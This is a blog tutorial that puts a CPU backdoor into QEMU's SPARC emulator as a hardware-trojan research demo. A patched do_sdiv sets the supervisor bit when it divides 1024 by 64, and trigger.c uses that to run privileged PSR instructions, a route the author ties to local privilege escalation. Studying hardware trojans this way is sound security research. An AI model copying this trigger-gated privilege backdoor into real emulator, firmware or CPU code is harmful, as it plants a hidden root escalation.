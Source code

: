 ```yaml
---
layout: post
title:  "Testing a HW Trojan in QEMU for Sparc architecture"
date:   2018-05-31 10:38:12 +0200
categories: jekyll update
---
```

This is a short tutorial for implementation of the CPU backdoor with the help of QEMU emulator.
Sources for the implementation are available here : [https://github.com/AdamKostrzewa/qemuSparcTrojan](https://github.com/AdamKostrzewa/qemuSparcTrojan)


Requirements:
* QEMU emulator version 2.12.50 (v2.12.0-rc3-71-g6af2692e86-dirty)
cloned from [git clone git://git.qemu.org/qemu.git](git clone git://git.qemu.org/qemu.git) 
* buildroot-2018.02.1 for cross compilation
cloned from [git clone git://git.buildroot.net/buildroot](git clone git://git.buildroot.net/buildroot) 

You may install qemu sources with :

{% highlight shell %}
wget https://download.qemu.org/qemu-2.12.0.tar.xz
tar xvJf qemu-2.12.0.tar.xz
cd qemu-2.12.0
./configure
make
{% endhighlight %}

The buildroot must be configured for the sparc ISA cross-compilation.
In the buildroot directory use the following commands
{% highlight shell %}
$ make qemu_sparc_ss10_defconfig
$ make menuconfig
{% endhighlight %}

make menuconfig gives you access to the graphical configuration tools.
Select from the  "Toolchain" section the option "Build cross gdb for the host".
It is necessary as the default SPARC v8 config (qemu_sparc_ss10_defconfig) does not include 
cross-gdb by default. Save and exit the graphical interface. 
Later run:
{% highlight shell %}
$ make
{% endhighlight %}
The process of downloading and building the packages may take a while.
The gnu tools for cross-compilation (e.g. sparc-linux-gcc, sparc-linux-as, sparc-linux-gdb etc) 
are located in the buildroot home directory : <path-to-buildroo>/output/host/usr/bin. 
In order to use these tools outside of the folder add the location to the system PATH.


All sources were checked on (26-May-2018)
 

Description:

The goal of this project is to present the simple implementation of the CPU backdoor in the Sparc pipeline using the Qemu emulator.
The payload of the trojan will be included in the SDIV command and will change the state of the processor's state register.
The trigger will be appropriate div assembler command run with the selected operands (1024 and 64 appropriately). 
The trojan presents an example of the HW/SW codesign.


Application notes:

* Clone the repository with the trojan - https://github.com/AdamKostrzewa/qemuSparcTrojan
* Copy the translate.c file to the ~/qemu_path/target/sparc (where is ~/qemu_path/ is the path of the installation directory)
* Copy the helper.c file to the ~/qemu_path/target/sparc (where is ~/qemu_path/ is the path of the installation directory)
* Compile and run the qemu 
* Compile and run the regular.c
* Compile and run the trigger.c
* run the simulation with the selected Linux Kernel

In my case I am running the following linux kernel:
Linux buildroot 4.11.12 #1 Wed May 2 10:20:04 CEST 2018 sparc GNU/Linux

it is loaded with the command:
{% highlight shell %}
KERNEL="zImage"
DISK="rootfs.ext2"
LOCATION="/path_to_buildroot/output/images"

./qemu/sparc-softmmu/qemu-system-sparc -kernel $LOCATION/$KERNEL \
-boot c \
-append "root=/dev/sda console=ttyS0" \
-nographic \
-m 256 \
-localtime \
-no-reboot \
-name rtlinux \
-net nic,vlan=0 -net user,vlan=0 \
-redir tcp:2222::22 \
-drive file=$LOCATION/$DISK,format=raw \
-monitor tcp:127.0.0.1:55555,server,nowait;
{% endhighlight %}

** Execution of the regular.c in the buildroot **

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>

extern __inline__ unsigned long get_psr(void) {
	unsigned int retval;
	__asm__ __volatile__("rd %%psr, %0\n\t" :
			     "=r" (retval) :);
	return (retval);
}

int main(){

	printf("Demo Application - Trojan Trigger\n");
	int a = 1024;
	int b = 63;
	int c = a / b;
	
//	int psr = get_psr();
	
	printf("a=%d b=%d \nc= a / b = %d \n", a, b, c);
	getchar();

	int *x = NULL;  
	int y = *x;	// null pointer dereference

	return 0;
}
{% endhighlight %}

The result of execution is simple.
The null pointer dereference will lead to a segmentation fault handled by the operating system (trap and interrupt).
An exemplary output of the execution will look as follows:
{% highlight shell %}
$ ./b.out
Demo Application - Trojan Trigger
a=1024 b=63 
c= a / b = 16 

b.out[108]: segfault at 0 ip 00010420 (rpc 000103fc) sp efcabca8 error 30001 in b.out[10000+f000]
Segmentation fault
{% endhighlight %}

If we un-comment the get_psr() function the execution will stop earlier
as processor is running in the user mode, and we are not allowed to use the privileged instructions.
The console output will then look as follows:
{% highlight shell %}
$ ./b.out
Demo Application - Trojan Trigger
Illegal instruction
{% endhighlight %}

** Execution of thge trojans's trigger.c in the buildroot **

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>

extern __inline__ unsigned long get_psr(void) {
	unsigned int retval;
	__asm__ __volatile__("rd %%psr, %0\n\t" :
			     "=r" (retval) :);
	return (retval);
}

extern __inline__ void put_psr(unsigned int new_psr)
{
	__asm__ __volatile__("wr %0, 0x0, %%psr\n\t"
			     "nop; nop; nop;" : :
 			     "r" (new_psr));
}


int main(){

	printf("Demo Application - Trojan Trigger\n");

	int a = 1024;
	int b = 64;
	int c = a / b;
	
	int psr = get_psr();
	put_psr(psr ^ 0x80);
	
	printf("a=%d b=%d \nc= a / b = %d \n", a, b, c);
	getchar();
	printf("PSR %x \n", psr);
 	getchar();

	c = a / b;
	int *x = NULL;  // x is a null pointer
	int y = *x;	// null pointer dereference

	return 0;
}
{% endhighlight %}


The trigger.c file contains the triggering signal, i.e., division with operands int a = 1024;
	int b = 64; 	int c = a / b; Consequently after its execution we are able to use get_psr and put_psr functions
	without the "Illegal instruction" error.
	
Exemplary output of the execution looks as follows:
{% highlight shell %}
$ ./a.out
Demo Application - Trojan Trigger
a=1024 b=64 
c= a / b = 16 

PSR 40000a5 
{% endhighlight %}
As we see the processor was in the kernel mode after the activation (8th bit of the PSR).
Therefore, attacker has access to all commands and all memory operations
and can conduct local privilege escalation  (local root) by overwriting privileges of the own process
at the kernel's stack.

BUT BE CAREFUL!
In kernel mode system is really fragile and every pointer de-reference may finish in permanent crash:
{% highlight shell %}
$ ./a.out
Demo Application - Trojan Trigger
a=1024 b=64 
c= a / b = 16 

PSR 40000a5 
^[[A
Unable to handle kernel NULL pointer dereference
tsk->{mm,active_mm}->context = 00000000
tsk->{mm,active_mm}->pgd = 00000000
              \|/ ____ \|/
              "@'/ ,. \`@"
              /_| \__/ |_\
                 \__U_/
(null)(0): Oops [#1]
CPU: 0 PID: 0 Comm: (null) Not tainted 4.11.12 #1
task:   (null) task.stack:   (null)
PSR: 040000c7 PC: f0011284 NPC: f0011288 Y: 00000000    Not tainted
PC: <do_sparc_fault+0x8/0x420>
%G: 00000000 00000000  00000000 00000001  00000001 00003d20  00000010 000348e0
%O: 00000004 000302d8  00001000 fb041048  00000001 fb2baaa8  ef965958 f00b9358
RPC: <SyS_read+0x2c/0x8c>
%L: 040000c1 00010908  00017f88 00000004  04000301 00000000  00000000 00030000
%I: ef965a20 00000000  00000000 00000000  fb2baaa0 fb2baaa0  ef9659c0 f0007ee4
Disabling lock debugging due to kernel taint
Instruction DUMP:
 82062004 
 9de3bf98 
 e0060000 
<e201a004>
 80a66000 
 02800003 
 a00c2040 
 f6062004 
 033bffff 

Kernel panic - not syncing: Attempted to kill the idle task!
Press Stop-A (L1-A) from sun keyboard or send break
twice on console to return to the boot prom
---[ end Kernel panic - not syncing: Attempted to kill the idle task!

 {% endhighlight %}


The payload is included in the s_div function of the do_sdif function in helper.c of the target/sparc in qemu.

{% highlight c %}
static target_ulong do_sdiv(CPUSPARCState *env, target_ulong a,
target_ulong b, int cc, uintptr_t ra)
{
int overflow = 0;
int64_t x0;
int32_t x1;

x0 = (a & 0xffffffff) | ((int64_t) (env->y) << 32);
x1 = (b & 0xffffffff);

// trojans payload
if(x0 == 1024 && x1 == 64){
CPUState *cs = CPU(sparc_env_get_cpu(env));
SPARCCPU *cpu = SPARC_CPU(cs);
CPUSPARCState *sc = &cpu->env;
sc->psrs =1;
}


if (x1 == 0) {
cpu_raise_exception_ra(env, TT_DIV_ZERO, ra);
} else if (x1 == -1 && x0 == INT64_MIN) {
x0 = INT32_MAX;
overflow = 1;
} else {
x0 = x0 / x1;
if ((int32_t) x0 != x0) {
x0 = x0 < 0 ? INT32_MIN : INT32_MAX;
overflow = 1;
}
}

if (cc) {
env->cc_dst = x0;
env->cc_src2 = overflow;
env->cc_op = CC_OP_DIV;
}
return x0;
}
{% endhighlight %}

The actions of the payload are fairly simple:
* we check the value of the operands (x0 == 1024 && x1 == 64)
* we cas the CPU object to the CPUSPARCState *sc. The sc contains values of the SPARC CPU register
as they are different from x86 and must be casted at runtime.
* we modify the eight bit of the PSR register sc->psrs =1;




If we are still in user mode the exception is raised as RDPSR | WRPSR are privileged instructions.
Consult the SPARC Manual v8 for more details.

